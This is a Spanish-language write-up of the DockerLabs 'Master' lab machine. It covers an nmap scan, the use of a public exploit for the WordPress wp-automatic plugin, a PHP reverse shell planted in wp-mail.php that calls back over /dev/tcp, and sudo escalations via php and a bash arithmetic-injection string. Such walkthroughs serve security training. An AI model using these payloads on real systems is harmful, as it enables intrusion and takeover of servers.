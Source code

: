 Máquina **Master** de [DockerLabs](https://dockerlabs.es)

Autor: [Pylon & El Pingüino de Mario](https://www.youtube.com/@Pylonet)

Dificultad: Medio

![Master](images/master/master.png)

# Reconocimiento

Comenzamos con un escaneo de `nmap`:

```css
nmap -sSVC -p- --open --min-rate 5000 -Pn -n -vvv 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Fri Jan 10 16:52:54 2025 as: nmap -sSVC -p- --open --min-rate 5000 -Pn -n -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2025-01-10 16:52:55 -03 for 16s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: CCF3F1622BBC8760E39AAB495FD4A9B1
|_http-title: Master
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-generator: WordPress 6.5.5
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jan 10 16:53:11 2025 -- 1 IP address (1 host up) scanned in 17.04 seconds
```

como podemos observar, solo se encuentra el puerto 80 abierto, el cual tiene un apache con un wordpress.

### Puerto 80

Si revisamos el pie de la página, veremos lo siguiente:

![Plugin](images/master/plugin.png)

como vemos, se trata de el plugin wp-automatic en su versión 3.92.0 y si buscamos podemos encontrar el siguiente [PoC](https://github.com/diego-tella/CVE-2024-27956-RCE) el cual al ejecutarlo de la siguiente manera nos crea un usuario llamado "eviladmin":

```css
python3 exploit.py http://172.17.0.2/
```

![Exploit](images/master/exploit.png)

por lo que ya tenemos credenciales para logearnos.

# Intrusión

Ya estando dentro del wordpress, nos vamos a la sección de "Añadir plugins" y buscamos el siguiente:

![Plugin](images/master/plugin-wp.png)

lo instalamos y lo activamos.

Cuando nos aparezca la sección del plugin, entramos y editamos el archivo "wp-mail.php" y pegamos lo siguiente:

```php
<?php
system("bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'");
?>
```

lo guardamos y luego escuchamos con `netcat` por el puerto 443 (`sudo nc -lvnp 443`), luego, al entrar en "wp-mail.php" recibiremos la conexión con el usuario www-data.

# Escalada De Privilegios

### www-data

Si ejecutamos `sudo -l` veremos que podemos ejecutar `php` como el usuario pylon, por lo que para escalar simplemente debemos ejecutar esto:

```css
sudo -u pylon php -r 'system("/bin/bash");'
```

### Pylon

Nuevamente, al ejecutar `sudo -l` veo que puedo ejecutar con bash un script que se encuentra en la home de mario, el problema es que no puedo leerlo, pero si revisamos la home de pylon veremos que hay un script llamado igual que cumple casi la misma función. Lo que nos interesa de esto es que en el código del script se encuentra lo siguiente:

```bash
if [[ $num -eq 1 ]]
```

y si buscamos en internet, veremos que podemos obtener una bash si escribimos lo siguiente al ejecutar el script como mario:

```css
a[$(/bin/bash >&2)]+42
```

por lo que lo ejecutamos de la siguiente manera y al introducir lo anterior escalaremos a mario:

```css
sudo -u mario bash /home/mario/pingusorpresita.sh
```

### Mario

Ahora al ejecutar `sudo -l` pasará lo mismo que antes solo que podremos ejecutar el script en la home de pylon como root, por lo que si introducimos lo mismo escalaremos a root.

### Root

![Root](images/master/root.png)

Gracias por leer ;)